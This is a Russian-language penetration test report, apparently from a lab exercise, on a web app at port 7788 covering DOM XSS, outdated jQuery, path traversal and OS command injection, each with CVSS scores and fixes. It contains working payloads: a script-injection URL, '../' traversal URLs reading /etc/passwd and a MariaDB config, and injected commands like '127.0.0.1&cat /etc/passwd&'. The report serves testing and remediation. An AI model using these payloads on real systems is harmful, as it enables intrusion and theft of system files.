

### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Автоматизированное сканирование OWASP ZAP сгенерировало тестовую ссылку. Ручной переход по ссылке вызвал выполнение JavaScript-кода с появлением всплывающего окна. Отсутствие какого-либо экранирования или фильтрации входящих параметров подтверждает наличие уязвимости.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации требуется, чтобы жертва перешла по специально сформированной ссылке. Атака влияет на браузер пользователя, а не на само приложение, поэтому Scope изменяется.

В случае успешной эксплуатации возможна кража сессионных cookie, перенаправление на вредоносные сайты, подделка содержимого страницы и выполнение действий от имени пользователя.

**Итоговая оценка: 6.1 (MEDIUM)**

### Потенциальное воздействие

Злоумышленник может создать вредоносную ссылку и распространять ее через фишинговые письма, сообщения или внедрять на сторонних сайтах. При переходе по ссылке жертвы будут выполнять произвольный JavaScript-код, что может привести к краже сессионных cookie, получению доступа к личным данным, перенаправлению на вредоносные ресурсы и выполнению действий от имени пользователя.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения необходимо добавить экранирование всех входящих параметров перед их вставкой в DOM. Для параметра `q` следует применять кодирование специальных символов HTML.

#### Полное исправление

В качестве постоянного решения необходимо внедрить валидацию и санитизацию всех пользовательских входных данных на стороне сервера и клиента. Следует использовать безопасные методы работы с DOM, такие как `textContent` вместо `innerHTML` при вставке пользовательского контента. Рекомендуется внедрить Content Security Policy для ограничения выполнения скриптов только с доверенных источников.

#### Дополнительные рекомендации

Рекомендуется провести аудит всего кода приложения на предмет использования небезопасных методов работы с DOM, таких как `innerHTML`, `document.write`, `eval`. Следует внедрить процесс безопасной разработки с обязательным тестированием на XSS-уязвимости и регулярное автоматизированное сканирование после каждого изменения кода.

### Заключение

Уязвимость DOM-based XSS на странице `/search` порта 7788 подтверждена и успешно эксплуатирована. Переход по ссылке с параметром `q=<script>alert(111)</script>` вызвал выполнение JavaScript-кода. Уязвимость классифицируется как средний уровень риска. Рекомендуется внедрение валидации входных данных и безопасных методов работы с DOM.

## Эксплуатация устаревших JavaScript-библиотек (CWE-1395)

### Цель
Порт 7788, файлы `/static/js/jquery1111.min.js` и `/static/js/lightbox-plus-jquery.min.js`

### Описание уязвимости

В ходе автоматизированного сканирования OWASP ZAP были обнаружены признаки использования устаревших версий JavaScript-библиотек. При ручной проверке с использованием curl подтверждено наличие файла `/static/js/jquery1111.min.js`, содержащего jQuery версии 1.11.1. Дополнительный файл `/static/js/lightbox-plus-jquery.min.js` содержит jQuery версии 2.1.4. Данные версии являются устаревшими и содержат множество известных уязвимостей, включая Cross-Site Scripting и Prototype Pollution.

### Процесс эксплуатации

#### Автоматизированное обнаружение

Инструмент OWASP ZAP в ходе активного сканирования зафиксировал наличие файлов JavaScript-библиотек с характерными признаками устаревших версий. В отчете были указаны потенциально уязвимые версии jQuery.

#### Ручное подтверждение

Для подтверждения версии библиотеки был выполнен запрос к файлу `jquery1111.min.js` с последующей фильтрацией строки, содержащей информацию о версии:

```bash
curl -s http://92.51.39.106:7788/static/js/jquery1111.min.js | grep -i "jquery v"
```

В ответе получена строка:



Данная строка подтверждает использование jQuery версии 1.11.1, выпущенной в 2014 году. Аналогичная проверка файла `lightbox-plus-jquery.min.js` подтверждает наличие jQuery версии 2.1.4.

#### Анализ известных уязвимостей

Версия jQuery 1.11.1 подвержена следующим уязвимостям:
- CVE-2019-11358 (Prototype Pollution) — позволяет злоумышленнику изменять поведение объектов через манипуляцию прототипов
- CVE-2020-11022 (XSS) — возможность выполнения произвольного JavaScript-кода при передаче специально сформированного HTML
- CVE-2020-11023 (XSS) — аналогичная уязвимость через элемент `<option>`
- CVE-2015-9251 (XSS) — уязвимость при выполнении кросс-доменных Ajax-запросов

Версия jQuery 2.1.4 подвержена тем же уязвимостям.

### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Автоматизированное сканирование OWASP ZAP выявило подозрительные версии библиотек. Ручная проверка с использованием curl подтвердила точные номера версий. Сверка с базой известных уязвимостей подтвердила наличие множества CVE в данных версиях. Документация производителя также указывает на необходимость обновления до более новых версий для устранения данных проблем.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация, но требуется взаимодействие с пользователем, который должен зайти на страницу, использующую уязвимую библиотеку. Атака влияет на браузер пользователя, а не на само приложение, поэтому Scope изменяется.

В случае успешной эксплуатации возможна кража сессионных cookie, подмена содержимого страницы и выполнение действий от имени пользователя. Доступность приложения не нарушается.

**Итоговая оценка: 6.1 (MEDIUM)**

### Потенциальное воздействие

При успешной эксплуатации злоумышленник может выполнить произвольный JavaScript-код в браузере жертвы, что может привести к краже сессионных cookie, получению доступа к личным данным пользователей, перенаправлению на вредоносные сайты, подделке содержимого страницы и выполнению действий от имени пользователя. Учитывая, что библиотеки используются на всех страницах приложения, потенциальное воздействие распространяется на всех пользователей.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения рекомендуется отключить использование уязвимых библиотек или заменить их на актуальные версии. Если немедленное обновление невозможно, следует внедрить Content Security Policy для ограничения выполнения скриптов только с доверенных источников, что может снизить риск эксплуатации XSS-уязвимостей.

#### Полное исправление

В качестве постоянного решения необходимо обновить jQuery до актуальной версии 3.7.1 или выше, в которой устранены все перечисленные уязвимости. Для библиотеки Lightbox также потребуется обновление до версии, использующей актуальную версию jQuery, либо замена на альтернативное решение с поддержкой современных версий.

#### Дополнительные рекомендации

Рекомендуется провести аудит всех используемых JavaScript-библиотек на предмет устаревших версий и внедрить процесс регулярного обновления зависимостей. Следует использовать инструменты автоматического мониторинга уязвимостей в используемых библиотеках, такие как OWASP Dependency Check или Snyk. Также рекомендуется внедрить политику безопасной разработки, требующую использования только актуальных и поддерживаемых версий библиотек.

### Заключение

Уязвимость использования устаревших JavaScript-библиотек подтверждена. Обнаружены jQuery версий 1.11.1 и 2.1.4, содержащие множественные известные уязвимости. Уязвимость классифицируется как средний уровень риска с возможностью повышения при комбинации с другими векторами атаки. Рекомендуется обновление до актуальных версий в соответствии с предложенными мерами.

## Эксплуатация Path Traversal (CWE-22)
### Цель - Порт 7788, страница `/read`

### Описание уязвимости

В ходе тестирования веб-приложения Beemer на порту 7788 была обнаружена уязвимость Path Traversal на странице `/read`. Уязвимость позволяет злоумышленнику читать произвольные файлы на сервере путем манипуляции параметром `file` и использования последовательности `../` для выхода за пределы веб-директории.

### Процесс эксплуатации

#### Автоматизированное обнаружение

Инструмент OWASP ZAP в ходе активного сканирования сгенерировал тестовую ссылку для проверки Path Traversal.

#### Ручное подтверждение уязвимости

Для подтверждения был осуществлен переход по сгенерированной ссылке:

```
http://92.51.39.106:7788/read?file=../../../../../../../../../../../../../../etc/passwd
```

В ответе сервера отобразилось содержимое файла `/etc/passwd`. Зафиксировано содержимое файла, содержащее список пользователей системы, включая учетные записи `root`, `daemon`, `bin`, `sys`, `sync`, `games`, `man`, `lp`, `mail`, `news`, `uucp`, `proxy`, `www-data`, `backup`, `list`, `irc`, `gnatx`, `nobody` и `_apt`.



#### Расширенная эксплуатация

Для подтверждения возможности чтения конфиденциальных файлов был выполнен запрос на чтение конфигурационного файла MariaDB:

```
http://92.51.39.106:7788/read?file=../../../../../../../../../../../../../../etc/mysql/mariadb.cnf
```

Зафиксировано содержимое файла `/etc/mysql/mariadb.cnf`, содержащего конфигурацию базы данных, включая пути к директориям конфигурации и директивы `!includedir`, что раскрывает структуру хранения конфигурационных файлов базы данных.



### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Автоматизированное сканирование OWASP ZAP сгенерировало тестовую ссылку. Ручной переход по ссылке позволил получить содержимое системного файла `/etc/passwd`, содержащего список всех пользователей системы. Дополнительный запрос конфигурационного файла MariaDB подтвердил возможность чтения произвольных файлов, включая конфиденциальные. Отсутствие какой-либо фильтрации или валидации параметра `file` подтверждает наличие уязвимости.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация и не требуется взаимодействие с пользователем. Атака позволяет читать произвольные файлы на сервере, включая конфигурационные файлы баз данных и системные файлы с учетными записями пользователей. Полученные данные подтверждают высокий уровень конфиденциальности, раскрываемой уязвимостью.

**Итоговая оценка: 7.5 (HIGH)**

### Потенциальное воздействие

Уязвимость позволяет злоумышленнику читать любые файлы на сервере, доступные пользователю, под которым работает веб-приложение. В ходе эксплуатации получены системный файл с учетными записями пользователей и конфигурационный файл базы данных. Это открывает возможности для получения паролей баз данных, ключей шифрования, исходных кодов приложения и других конфиденциальных данных. В сочетании с другими уязвимостями это может привести к полной компрометации сервера.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения необходимо добавить валидацию параметра `file`, разрешив доступ только к определенной директории, например, только к файлам в директории `/static/` или `/public/`. Также следует заблокировать использование последовательности `../` в путях.

#### Полное исправление

В качестве постоянного решения необходимо использовать белый список разрешенных файлов или идентификаторов вместо прямых путей к файлам. Например, вместо `file=document.pdf` использовать `id=123` и на сервере сопоставлять ID с реальным путем к файлу. Следует нормализовать пути перед обработкой, удаляя все `../` и проверяя, что итоговый путь находится внутри разрешенной директории.

#### Дополнительные рекомендации

Рекомендуется проводить аудит всех мест в приложении, где используются файловые операции с пользовательским вводом. Следует внедрить процесс безопасной разработки с обязательным тестированием на Path Traversal уязвимости и регулярное автоматизированное сканирование после каждого изменения кода.

### Заключение

Уязвимость Path Traversal на странице `/read` порта 7788 подтверждена и успешно эксплуатирована. Получено содержимое системного файла `/etc/passwd` и конфигурационного файла MariaDB. Уязвимость классифицируется как высокий уровень риска. Рекомендуется немедленное применение мер по валидации входных данных.

## Эксплуатация Remote OS Command Injection (CWE-78)
### Цель - Порт 7788, страница `/server.html`

### Описание уязвимости

В ходе тестирования веб-приложения Beemer на порту 7788 была обнаружена уязвимость Remote OS Command Injection на странице `/server.html`. Уязвимость позволяет злоумышленнику выполнять произвольные команды операционной системы на сервере путем внедрения специальных символов в параметр `server`, передаваемый методом POST.

### Процесс эксплуатации

#### Автоматизированное обнаружение

Инструмент OWASP ZAP в ходе активного сканирования сгенерировал предупреждение о возможности выполнения команд на странице `/server.html` с использованием параметра `server`.

#### Чтение системного файла

Для подтверждения уязвимости в поле ввода на странице `/server.html` был введен пэйлоад:
```
127.0.0.1&cat /etc/passwd&
```

В ответе сервера, помимо результатов ping, отобразилось содержимое файла `/etc/passwd`, содержащее список всех пользователей системы, включая `root`, `daemon`, `www-data` и других.



#### Создание файла на сервере

Для подтверждения возможности записи на сервер был выполнен запрос с командой создания файла:

```
127.0.0.1&touch crack.txt&
```



На скриншоте  зафиксирован момент отправки запроса. Запрос с командой `ls -la` подтвердил создание файла `crack.txt` с правами `-rw-r--r--` и владельцем `root`, что доказывает возможность не только чтения, но и записи файлов на сервере.



#### Определение рабочей директории

Из листинга директории видно, что приложение находится в директории, содержащей файлы `server.py`, `Dockerfile`, `requirements.txt`, что указывает на запуск приложения в контейнере или непосредственно из исходного кода.

### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Автоматизированное сканирование OWASP ZAP выявило потенциальную уязвимость. Ручное тестирование через браузер с использованием пэйлоада `127.0.0.1&cat /etc/passwd&` позволило получить содержимое системного файла. Выполнение команды `ls -la` раскрыло структуру файловой системы. Создание файла `crack.txt` и его последующее обнаружение в листинге директории является неопровержимым доказательством возможности выполнения произвольных команд и записи на сервер.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация. Атака позволяет выполнять произвольные команды с правами пользователя `root` (судя по владельцу созданного файла), читать, создавать, изменять и удалять файлы, а также потенциально получать полный контроль над сервером.

**Итоговая оценка: 9.8 (CRITICAL)**

### Потенциальное воздействие

Уязвимость позволяет злоумышленнику получить полный контроль над сервером. В ходе эксплуатации подтверждена возможность чтения системных файлов (`/etc/passwd`), исследования файловой системы (`ls -la`), создания файлов (`touch crack.txt`). Злоумышленник может установить постоянный доступ (backdoor), изменить или удалить данные приложения, получить исходный код (`server.py`), модифицировать файлы конфигурации, а также использовать сервер для атак на другие системы.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения необходимо отключить страницу `/server.html` или закрыть к ней доступ через конфигурацию веб-сервера. Также следует добавить фильтрацию символов `&`, `;`, `|`, `` ` ``, `$` в параметре `server`.

#### Полное исправление

В качестве постоянного решения необходимо переписать логику работы приложения. Вместо передачи IP-адреса в системную команду следует использовать встроенные функции языка Python/Tornado для проверки доступности хоста. Необходимо полностью исключить вызов внешних команд с пользовательским вводом.

#### Дополнительные рекомендации

Рекомендуется применять принцип наименьших привилегий: процесс веб-сервера не должен выполняться от имени `root`. Следует проводить регулярный аудит кода на предмет использования опасных функций и внедрить процесс безопасной разработки.

### Заключение

Уязвимость Remote OS Command Injection на странице `/server.html` порта 7788 подтверждена и успешно эксплуатирована. В ходе эксплуатации получено содержимое системного файла `/etc/passwd`, исследована структура файловой системы и создан файл `crack.txt`, что подтверждено скриншотами `100350.png`, `100351.png`, `100352.png` и `100353.png`. Уязвимость классифицируется как критическая. Рекомендуется немедленное применение мер по исправлению.

